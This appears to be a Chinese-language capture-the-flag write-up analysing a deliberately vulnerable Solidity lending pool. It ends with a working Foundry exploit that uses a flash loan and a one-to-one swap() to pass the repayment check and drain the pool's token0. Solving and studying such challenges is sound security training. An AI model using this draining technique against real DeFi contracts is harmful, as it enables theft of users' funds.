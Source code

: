 # 01.challenge

## 分析

### 1.大局观

主要有两个合约：

- Cert
  - ERC20代币合约
  - 加入了一个`safeCheek()`和`grant()`，魔改了一下，以为这里会出考点，但是没用到
- TrusterLenderPool
  - 池子拥有token0和token1
  - 拥有将此token0和token1交换的`swap()`，但却是等额交换而非K值，提供token0的闪电贷服务

### 2.任务

将TrusterLenderPool合约的token0余额设置为0，起初token0和token1都有10000个

```solidity
	function Complete() external {
        require(token0.balanceOf(address(this)) == 0);
    }
```

### 3.详细分析

既然有闪电贷方法，自然闪电贷就是核心突破点。从闪电贷方法可以看出，我们可以借出池子中所有的token0然后做些事情

```solidity
    // 闪电贷
    function flashLoan(uint256 borrowAmount,address borrower) external nonReentrant{
        // 获取闪电贷之前token0的余额
        uint256 balanceBefore = token0.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        // 借给borrower，可以是任意地址
        token0.transfer(borrower, borrowAmount);
        // 回调borrower的receiveEther(uint256)进行还钱
        borrower.functionCall(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                borrowAmount
            )
        );

        // 检查token0余额，必须大于等于之前的余额
        uint256 balanceAfter = token0.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

`swap()`是加减法交换，那么问题是巨大的，因为这么做就失去了token的市场价值规则，会将池子的token耗尽。在本题，我们借到了的token0，可以用来swap，然后池子的token0就会变回原来的值，这样就可以通过闪电贷的还款检验，并且我们拥有token1。然后就可以用token1来换token0完成题目

```solidity
    // 交换token0和token1，使用之前需要先授权给本合约，这里是等额交换，也就是加减法交换
    function swap(address tokenAddress, uint amount) public returns(uint){
        require(
            // 以 || 为界限，必须上边都为true或下边都为true
            tokenAddress == address(token0) && token1.transferFrom(msg.sender,address(this),amount)  && token0.transfer(msg.sender,amount) 
            
            ||

            tokenAddress== address(token1) && token0.transferFrom(msg.sender,address(this),amount) && token1.transfer(msg.sender,amount));
        return amount;

    } 
```

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/01.challenge/TrusterLenderPool.sol";

contract attackTest is Test {

    TrusterLenderPool public pool;
    Cert public token0;
    Cert public token1;

    function setUp() public{
        pool =  new TrusterLenderPool();
        token0 = Cert(address(pool.token0()));
        token1 = Cert(address(pool.token1()));
    }

    function test_isComplete() public {
        // 1.闪电贷得到10000的token0 [pool: 0token0,10000token1][me: 10000token0,0token1]
        pool.flashLoan(10000,address(this));
        // 4.授权给pool 10000个token1 [pool: 10000token0,0token1][me: 0token0,10000token1]
        token1.approve(address(pool),10000);
        // 5.将我们的10000个token1换成10000个token0 [pool: 0token0,10000token1][me: 10000token0,0token1]
        pool.swap(address(token0),10000);

        pool.Complete();
    }

    function receiveEther(uint256 amount)public{
        // 2.授权给pool 10000个token0 [pool: 0token0,10000token1][me: 10000token0,0token1]
        token0.approve(address(pool),10000);
        // 3.将我们的10000个token0换成10000个token1 [pool: 10000token0,0token1][me: 0token0,10000token1]
        pool.swap(address(token1),10000);
    }

}
```









































